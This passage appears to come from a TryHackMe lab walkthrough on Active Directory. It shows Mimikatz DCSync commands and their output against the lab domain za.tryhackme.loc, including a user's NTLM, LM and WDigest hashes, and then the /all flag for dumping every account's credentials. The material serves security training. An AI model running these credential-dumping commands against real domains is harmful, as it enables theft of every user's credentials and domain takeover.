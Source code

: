 ```powershell
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'aaron.jones' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones 

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 ( USER_OBJECT )    
User Account Control : 00000200 ( NORMAL_ACCOUNT ) 
Account expiration   :
Password last change : 4/25/2022 7:30:21 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429 
Object Relative ID   : 1429

Credentials:
  Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc 
    ntlm- 0: fbdcd5041c96ddbd82224270b57f11fc 
    lm  - 0: 0fd2685aa18c78bd265d02bdec203b04 

[...]

* Primary:WDigest * 
    01  991d45386dd3561e0c5529d3605f96e6
    02  d5d6f25b233c87b289706d7b423f1145
[...]
```

You will see quite a bit of  output, including the current NTLM hash of your account. You can verify  that the NTLM hash is correct by using a [website such as this](https://codebeautify.org/ntlm-hash-generator) to transform your password into an NTLM hash. 

This is great and all, but we want to DC sync every single account. To do this, we will have to enable logging on Mimikatz:

- **Mimikatz Terminal**      

```powershell
mimikatz # log <username>_dcdump.txt 
Using '<username>_dcdump.txt' for logfile: OK
```

Make sure to change <username> to your username as to not overwrite  the logdump of other users. Now, instead of specifying our account, we  will use the /all flag:

- **Mimikatz Terminal**      

```powershell
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```
